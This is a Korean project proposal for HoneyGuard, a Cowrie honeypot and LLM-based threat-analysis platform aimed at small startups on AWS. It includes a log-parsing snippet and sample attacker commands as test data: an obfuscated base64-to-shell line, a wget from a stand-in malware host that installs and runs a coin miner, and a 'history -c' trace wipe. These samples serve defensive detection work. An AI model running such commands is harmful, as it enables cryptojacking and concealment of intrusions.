


# [최종 종합 기획서] 허니팟 기반 보안 위협 탐지 시스템 (HoneyGuard)
**실제 인터넷 공격 수집 · AI 런타임 시맨틱 분석 · 실시간 관제 시각화 CTI 플랫폼**

---

## 1. 프로젝트 개요 및 배경

### 1.1 배경 및 객관적 통계 지표
* **사이버 침해사고의 폭발적 급증**: 과학기술정보통신부 및 한국인터넷진흥원(KISA)의 발표에 따르면, 2025년 사이버 침해사고 신고 건수는 **2,383건으로 전년(1,887건) 대비 26.3% 급증**함(일평균 약 6.5건 이상).
* **자동화 봇넷의 전역 무차별 공격 일상화**: 특정 대상을 목표로 삼는 표적 공격(APT)뿐만 아니라, 전 세계 IPv4 대역(`0.0.0.0` ~ `255.255.255.255`)을 1초에 수백만 개씩 자동 스캔하여 취약점을 찔러보는 무차별 스캐닝 봇넷이 일상화됨.
* **기존 보안 연구 및 교육의 한계**: KDD99, CICIDS 등 전통적 연구 데이터셋은 박제된 가상 트래픽에 기반하여, 오늘날 야생(Wild) 인터넷 환경에서 실시간으로 유입되는 최신 변종 공격 전술(TTP)을 전혀 반영하지 못함.

---

## 2. 타깃 고객 정의 및 해커의 타깃팅 동기 분석

### 2.1 주 고객층 정의 (Primary Customer Profile)
> **"ISMS 의무 인증 대상이 아니어서 수천만 원대 보안관제(SOC/SIEM) 솔루션을 구축하지 못하지만, AWS 클라우드에 Linux 인스턴스를 운영하고 있어 인프라 운영과 보안을 겸임하는 10~50인 IT 스타트업의 1인 DevOps / 백엔드 엔지니어"**

---

### 2.2 해커들이 소규모 기업/스타트업을 적극적으로 공격하는 4대 이유
*"해커들은 돈이 많은 대기업만 공격할 것이다"*라는 생각은 현실의 사이버 공격 환경과 정반대입니다. 해커에게 소규모 IT 스타트업은 **오히려 대기업보다 훨씬 매력적인 최고의 먹잇감**입니다.

#### ① 공격 방식의 현실: 대상을 가리지 않는 "기회주의적 무차별 스캔 (Mass Opportunistic Scan)"
* 해커는 "여기가 대기업인가, 스타트업인가"를 보고 공격을 결정하지 않습니다.
* ZMap, Masscan 같은 자동화 도구로 인터넷 전체 IP의 22번(SSH), 23번(Telnet) 포트를 무차별 스캔합니다.
* **스타트업이 클라우드에 서버를 띄워두는 순간, 봇넷의 그물망에 자동으로 걸려들어 매일 수천~수만 번의 침투 시도를 받게 됩니다.**

#### ② 공짜 코인 채굴장 (자원 탈취: Cryptojacking)
* 대기업 서버는 24시간 보안관제팀이 상주하여 CPU가 90% 이상 치솟으면 5분 만에 발각되고 격리됩니다.
* 반면 1인 관리자가 있는 스타트업은 침투해서 코인 채굴기(`xmrig`, `coinminer`)를 돌려도 **몇 달 동안 털린 줄도 모릅니다.**
* 스타트업이 피땀 흘려 내는 AWS 서버 비용으로 해커는 공짜 비트코인/모네로를 채굴하여 막대한 수익을 창출합니다.

#### ③ 대기업·국가기관 공격을 위한 "대포 서버 (경유지/좀비 봇넷 발판)"
* 해커가 대기업이나 금융사를 직접 공격할 경우 즉시 역추적당해 사법당국에 체포됩니다.
* 따라서 **역추적을 피하기 위한 '발판(Proxy/Pivoting)'으로 보안이 허술한 스타트업 서버 수천 개를 먼저 해킹하여 봇넷으로 편입**시킵니다.
* 사고 발생 시 IP 추적은 공격자가 아닌 무고한 스타트업 서버를 가리키게 됩니다.

#### ④ 대기업 내부망을 뚫는 징검다리: "공급망 공격 (Supply Chain Attack)"
* 대기업 본진의 방화벽은 견고하지만, 대기업과 협업하거나 외주를 맡은 스타트업의 보안은 취약합니다.
* 해커는 대기업을 직접 치는 대신, **스타트업 서버에 보관된 협업 API 키, AWS 인증 토큰, GitHub 소스코드를 탈취하여 대기업 시스템으로 침투**합니다.

#### ⑤ 극단적인 공격 가성비 (Low Hanging Fruit)
* 대기업은 수십억 원의 보안 장비로 인해 공격 성공률이 0.01% 미만이지만, 스타트업은 기본 계정(`root/password`, `ubuntu/1234`)이 방치되어 있어 **자동화 스크립트로 5초 만에 침투**할 수 있습니다. 해커의 투자 대비 수익률(ROI)이 극대화됩니다.
* **통계적 팩트**: KISA 침해사고 분석 통계에 따르면 **국내 침해사고 피해 기업의 80% 이상이 중소기업 및 스타트업**이며, Verizon DBIR 보고서 역시 침해사고의 43%가 소규모 비즈니스를 겨냥한다고 명시하고 있습니다.

---

### 2.3 고객들이 우리 제품을 "반드시" 사용해야 하는 현실적 당위성 (Must-Have Rationale)

관리자 입장에서 이 시스템은 새로운 일거리가 아니라, **"수천만 원의 금전적 재앙을 막고 매일 2시간의 야근을 30초로 줄여주는 필수 자동화 방패"**입니다.

| 구분 | 도입하지 않았을 때의 현실 (As-Is) | 우리 시스템 도입 후 (To-Be) |
| :--- | :--- | :--- |
| **비용 리스크** | 해커의 무단 코인 채굴 및 고사양 인스턴스 남용으로 **월말 AWS 청구서 수백~수천만 원 폭탄** | **월 1~2만 원의 초경량 비용**으로 사전 위협을 감지해 클라우드 청구서 폭탄 및 랜섬웨어 파산 원천 방지 |
| **관리자 업무량** | 서버 이상 시 매일 수만 줄의 `/var/log/auth.log`를 **눈으로 까보며 2시간씩 야근** | **AI가 밤새 로그를 100% 자동 분석**, 아침에 1장짜리 대시보드 확인 후 30초 만에 원클릭 방어 조치 |
| **사내 보안 감사** | 사내 직원들의 `admin123` 등 취약 패스워드 방치 | 대시보드의 **[공격자 최다 시도 비밀번호 Top 10]**을 사내 계정 생성 금지 블랙리스트로 즉시 연동 |
| **투자 및 B2B 계약** | 대기업 실사 및 투자 유치(IR) 시 "보안관제 체계 부재"로 계약 결렬 | **"클라우드 허니팟 기반 실시간 CTI 관제 체계 구축"**을 증빙하여 수억 원대 계약 및 투자 실사 통과 |

---

## 3. 현존 보안 솔루션 종합 분석 및 우리 시스템과의 차별점

### 3.1 현존 보안 솔루션 계보 및 비교

| 솔루션 분류 | 대표 제품 | 핵심 동작 원리 | 치명적인 한계점 |
| :--- | :--- | :--- | :--- |
| **AV (전통 백신)** | 알약, V3, Windows Defender | 파일 해시 및 알려진 악성코드 바이너리 시그니처 검사 | 파일 없이 메모리에서만 도는 공격(Fileless)이나 난독화 쉘 스크립트 실행은 탐지 불가 |
| **EPP (통합 엔드포인트 보호)** | Symantec, McAfee | AV + 호스트 방화벽 + 취약점 패치 등을 통합한 예방 솔루션 | 탈취된 유효 자격증명(`root/password`)을 통한 정상 위장 침투는 식별 및 방어 불가 |
| **EDR (엔드포인트 탐지 대응)** | CrowdStrike Falcon, SentinelOne | 실제 운영 서버 커널 내부에 에이전트를 설치해 프로세스 행위 실시간 감시 | **대량 구매(최소 50~100대) 계약 강제, 수천만 원 비용, 에이전트로 인한 서버 가용성 저하/충돌 리스크** |
| **SIEM / SOAR** | Splunk, Datadog Security | 사내 모든 장비의 로그를 중앙 집중 수집하여 상관분석 | **GB당 살인적인 과금 체계**, 수개월간 룰셋을 관리할 전담 보안 엔지니어 필수 |
| **XDR (확장 탐지 대응)** | Microsoft Defender XDR, Palo Alto Cortex | 엔드포인트 + 네트워크 + 클라우드 로그를 AI로 통합 관제 | **수억 원대 엔터프라이즈 전용 장비**, 소규모 스타트업 도입 불가능 |
| **시그니처 IDS/IPS** | Snort, Suricata | 네트워크 패킷 내 정적 텍스트 패턴 매칭 | 명령어가 Base64 인코딩 등으로 **난독화되면 탐지율 0%로 추락** |
| **기존 허니팟** | Cowrie 단독, T-Pot | 가짜 서버로 침투를 유도하여 원시 JSON 파일로 기록 | 수만 건의 봇넷 로그가 텍스트로 방치되어 **관리자가 수동으로 분석해야 하는 한계** |

---

### 3.2 수집 구간의 결정적 차이: 운영 서버 내부 vs 인터넷 최외곽 미끼 서버

```text
[글로벌 인터넷 공격자]
         │
         ├──▶ [우리 시스템: 허니팟 미끼 서버] ◀◀◀ ★【수집 구간: 외부 격리 DMZ】★
         │     (운영망과 100% 격리된 가짜 EC2)
         │     - 실제 운영 서버에 에이전트 설치 0% (부하/장애 위험 0%)
         │     - 해커의 공격 수법(명령어, 패스워드)을 안전하게 선제 파악
         │
         └──▶ [진짜 운영 서버 (고객 DB, 결제 시스템)] ◀◀◀ 【AV / EPP / EDR / SIEM의 수집 구간】
               (해커가 여기까지 도달하면 이미 사고 직전)
               - 서버 내부에 무거운 에이전트 설치, 리소스 소모 및 충돌 위험
```

* **기존 솔루션(AV/EPP/EDR/SIEM)**: 진짜 고객 데이터가 돌아가는 **운영 서버 내부**에서 도둑과 육탄전을 벌임. 서버 성능을 갉아먹고, 업데이트 충돌 시 운영 서버가 마비되는 위험이 존재함.
* **우리 시스템**: 운영 서버에는 **단 1바이트의 프로그램도 설치하지 않음 (Zero Impact)**. 인터넷 최외곽에 가짜 서버를 배치해 **무피해 상태로 공격자의 패스워드와 최신 공격 명령어를 엿보는 선제적 첩보(CTI) 시스템**임.

---

### 3.3 우리 시스템(HoneyGuard)만의 3대 기술적 차별점



1. **시그니처 매칭 한계를 깬 "LLM 런타임 시맨틱(Semantic) 분석"**:
   - `echo "d2dldCAuLi4=" | base64 -d | sh` 와 같이 난독화된 쉘 스크립트의 실행 맥락을 역추적하여, **6종 의도(코인채굴, 봇넷가담, 정찰, 자격증명탈취, 랜섬웨어, 기타)**와 **심각도(1~5)**를 자동 산출.
2. **`cmd_hash` 정규화 클러스터링을 통한 AI 비용 99% 절감**:
   - 반복되는 봇넷 명령어를 정규화하여 `cmd_hash`를 생성하고, **동일 해시 세션군 중 대표 1건만 Claude Batch API로 일괄 분석**한 뒤 결과를 매핑하여 API 비용을 수십 원 수준으로 통제.
3. **듀얼 리전 및 프로토콜 교차 실증 (Cross-Comparison CTI)**:
   - AWS 서울 vs 버지니아 리전 비교를 통한 글로벌 무차별 스캔 검증.
   - SSH(인프라 자원 탈취) vs Telnet(IoT 봇넷 감염) 프로토콜별 위협 벡터 비교 실증.

---

## 4. 시스템 아키텍처 및 파이프라인



---

## 5. 코드 레벨 공격 탐지 메커니즘 및 로컬 검증 결과

### 5.1 코드 레벨 탐지 구현부 (`collector/parse_pipeline.py`)
```python
# [84~91행] 무차별 대입(Brute Force) 공격 판정
elif eid in ("cowrie.login.success", "cowrie.login.failed"):
    rows["auth_attempts"].append(key | {
        "eventid": eid,
        "username": ev.get("username"),
        "password": ev.get("password"),
        "success": eid == "cowrie.login.success",
        "ts": ts,
    })

# [92~93행] 침투 후 악성 명령어 실행 공격 판정
elif eid in ("cowrie.command.input", "cowrie.command.failed"):
    rows["commands"].append(key | {"eventid": eid, "input": ev.get("input") or "", "ts": ts})

# [94~100행] 악성 파일 다운로드 시도 감지
elif eid == "cowrie.session.file_download":
    rows["downloads"].append(key | {"eventid": eid, "url": ev.get("url"), ...})
```

### 5.2 로컬 드라이 런 검증 결과 (`collector/samples/sample_cowrie.json`)
* **세션 접속 (`sessions_open: 1`)**: 해커 IP `185.220.101.5`의 침투 세션 감지.
* **비밀번호 공격 (`auth_attempts: 2`)**: `admin/123`(실패) 및 `root/password123`(성공) 시도 분리 파싱.
* **명령어 실행 (`commands: 2`)**:
  1. `cd /tmp; wget http://malware.com/coinminer; chmod +x coinminer; ./coinminer` (코인 채굴기 설치/실행)
  2. `history -c` (명령어 입력 흔적 삭제)
* **검증 성과**: 서버 배포 전 로컬 환경에서 파서 무결성 및 DB 멱등성(중복 적재 방지) 검증 완료.
